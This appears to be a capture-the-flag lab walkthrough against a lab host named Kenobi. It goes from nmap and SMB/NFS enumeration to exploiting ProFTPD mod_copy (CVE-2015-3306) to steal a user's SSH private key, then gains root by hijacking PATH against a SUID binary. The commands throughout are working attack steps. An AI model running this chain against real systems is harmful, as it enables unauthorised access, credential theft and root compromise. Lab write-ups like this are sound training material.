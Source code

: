 <pre>
Ran service discovery scan
- nmap -Pn -A -sV -Sc -F 10.10.66.72

Scan Results:

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn&apos;t have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)  &lt;&lt;!
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      45831/tcp6  mountd
|   100005  1,2,3      54366/udp   mountd
|   100005  1,2,3      54927/tcp   mountd
|   100005  1,2,3      59568/udp6  mountd
|   100021  1,3,4      33981/tcp   nlockmgr
|   100021  1,3,4      36425/tcp6  nlockmgr
|   100021  1,3,4      49118/udp6  nlockmgr
|   100021  1,3,4      54719/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  &lt;&lt;!
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: &lt;unknown&gt; (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu) &lt;&lt;!
|   NetBIOS computer name: KENOBI\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-01-14T14:19:57-06:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-14T20:19:57
|_  start_date: N/A


Notable finds:
 - port 111 rpcbind
 - port 445 samba service
 - port 21 proFTPD server version 1.3.5
--------------------------------------------------------------------------------------------------

Enumerating smb shares:

Ran smb enumeration scan with nmap
 - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.66.72

Scan Results:
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.66.72\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\anonymous: <<!
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share <<!
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\print$:
|     warning: Couldn't get details for share: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|     Anonymous access: <none>
|    Current user access: <none>
|_______________________________________________________________________

Notable finds:
 - user kenobi
 - user anonymous

connecting via smbclient:
 - smbclient //10.10.241.98/anonymous
 - found file log.txt, permission denied
 - downloaded log.txt onto host machine using smbget -R smb://10.10.241.98/anonymous
 - log.txt was a proFTPD config file
 - port 21 is default port for proFTPD
--------------------------------------------------------------------------------------------------

Identifying Vulnerabilities:
 - ProFTPD 1.3.5 Server
 - vulnerable to CVE-2015-3306
 - mod_copy_module allows attackers to read/write arbitrary files via (site cpfr and site cpto) commands

Additional Notes:
 mod_copy_module implements SITE CPTO/SITE CPFR commands which is used to copy,
 files/directories from the server without transferring data to the client and back
 --------------------------------------------------------------------------------------------------

Enumerating file system on port 111 with nmap:
 - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.241.98
 - found mount /var
--------------------------------------------------------------------------------------------------

Exploiting cve-2015-3306:

Mounting /var/ dir. to host machine
 - sudo mkdir /mnt/kenobiNFS
 - sudo mount 10.10.241.98:/var /mnt/kenobiNFS

Copying kenobi's Private key to mounted /var/ dir.
 - nc 10.10.241.98 21
 - SITE CPFR /home/kenobi/.ssh/id_rsa
 - SITE CPTO /var/tmp/id_rsa
--------------------------------------------------------------------------------------------------

Gaining local Privilege Escalation:

Copy private key from mount to host machine dir. in order to use for priv esc
 - cp /mnt/kenobiNFS/tmp/id_rsa
 - sudo chmod 600 id_rsa (connecting via ssh requires private key file to have strict permissions)
 - ssh -i id_rsa kenobi@10.10.241.98

Gained local priv esc
--------------------------------------------------------------------------------------------------

Gaining Root via Path Manipulation:
- searched for binary files with suid bit permission (execs file as owner)
- find / -perm -u=s -type f 2>/dev/null
- found /usr/bin/menu it runs as root w/ no path

Running the binary returns,

********************
1. status check
2. kenrel version
3. ifconfig
** Enter your choice:
*********************

Creating a shell to gain root
 - echo /bin/sh > curl (copies shell to curl)
 - chmod 777 curl
 - export PATH=/tmp:$PATH (Puts the shell in our /tmp path)
 - /usr/bin/menu

 When /usr/bin/menu is run it uses our path to find the 'curl' binary,
 because the menu binary runs as root so does our shell gaining root access.
---------------------------------------------------------------------------------------------------
</pre>
